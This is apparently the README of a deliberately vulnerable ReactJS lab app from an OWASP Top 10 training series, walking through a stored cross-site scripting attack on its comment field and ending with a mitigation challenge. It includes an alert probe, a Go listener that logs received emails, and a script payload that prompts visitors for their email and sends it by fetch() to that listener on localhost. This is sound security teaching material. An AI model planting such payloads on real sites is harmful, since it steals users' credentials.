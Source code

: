 # Comment-killer

<p align="center">
    <img src="images/img1.png"/>
</p>

Comment-killer is a simple ReactJS app, which has Cross-Site Scripting vulnerability and its main goal is to describe how a malicious user could exploit it on this purposefully vulnerable app.

# Index

- [Definition](#what-is-cross-site-scripting)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

<a name="Def"></a>

## What is Cross-Site Scripting?

XSS flaws occur whenever an application includes untrusted data in a new web page without proper validation or escaping, or updates an existing web page with user-supplied data using a browser API that can create HTML or JavaScript. XSS allows attackers to execute scripts in the victim’s browser which can hijack user sessions, deface web sites, or redirect the user to malicious sites.

The main goal of this app is to discuss how **Cross-Site Scripting** vulnerabilities can be exploited and to encourage developers to send b3d3cLabs Pull Requests on how they would mitigate these flaws. Learn more <a href="https://owasp.org/www-community/attacks/xss/">here</a>.

<a name="Set" ></a>

## Setup

To start this intentionally **insecure application**, you will need [Docker](https://docs.docker.com/get-docker/) and [Docker Compose](https://docs.docker.com/compose/install/). After forking [b3d3cLabs](https://github.com/b3d3c/b3d3cLabs), you must type the following commands to start:

```bash
cd b3d3cLabs/owasp-top10-2017/a7/comment-killer
```

```bash
make install
```

Then simply visit [http://localhost:10007](http://localhost:10007) ! 😆

## Get to know the app 👾

To properly understand how this application works, you can follow these simple steps:

- Read the cool history behind the Memes.
- Add a new comment post.

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### Note: This attack narrative works best in Mozilla Firefox.

### 👀

### Non-sanitization of user input allows for cross-site scripting

After inspecting the application, it is possible to identify that the comment entry is not sanitized and can be executed on a web browser. The following images show this behavior when the following text is used as an input on these fields:

```
<script>alert(1)</script>
```

Adding a new comment to a post:
<p align="center">
    <img src="images/img2.png"/>
</p>

The missing input validation allows a malicious user to insert some scripts that will persist in the server and be executed on the victims' browser every time they access the routes that contain these scripts.

#### 🔥

An attacker may abuse this flaw by generating a malicious JS code and sending it to other users. To demonstrate this, the following example will create an email form to try and steal user credentials.

Initially, an API is needed to log all received requests and can be built in Golang as follows:

```go
package main

import (
   "fmt"
   "github.com/labstack/echo"
)

func main() {
   e := echo.New()
   e.GET("/:email", handler)
   e.Logger.Fatal(e.Start(":9051"))
}

func handler(c echo.Context) error {
   fmt.Println(c.Request().RemoteAddr, c.Param("email"))
   return nil
}
```

In order to start the API, the following command can be used (you should check this [guide](https://golang.org/doc/install) if you need any help with Golang):

```sh
go run main.go
```

With the API now up and running, all that is needed is the following code to show a pop-up message requesting the user's email in order to continue reading the blog:

```js
<script>
    var email = prompt("Please input your email again to continue:", "email@example.com");

    if (email == null || email == "") {
        alert("Ooops, please refresh the page!");
    } else {
        fetch('http://localhost:9051/'+email);
    }
</script>
```

The above JavaScript code is responsible for sending a `GET` request to the attacker's API so it can be logged. In this scenario, we'll be sending requests to `localhost`.

All we need now is to paste the JavaScript code in the comments field, as shown by the following image:

<p align="center">
    <img src="images/img3.png"/>
</p>

When another user access the app, the following pop-up will be shown, as we can see in the image below:

<p align="center">
    <img src="images/img4.png"/>
</p>

Meanwhile, with the API up and running, we're able to receive the user's email, as shown by the next image:

<p align="center">
    <img src="images/img5.png"/>
</p>

## Secure this app

How would you mitigate this vulnerability? After your changes, an attacker should not be able to:

-   Execute scripts through input fields

<a name="Sol"></a>


## References

* docker install: https://docs.docker.com/install/
* docker compose install: https://docs.docker.com/compose/install/
* app: http://localhost:10007
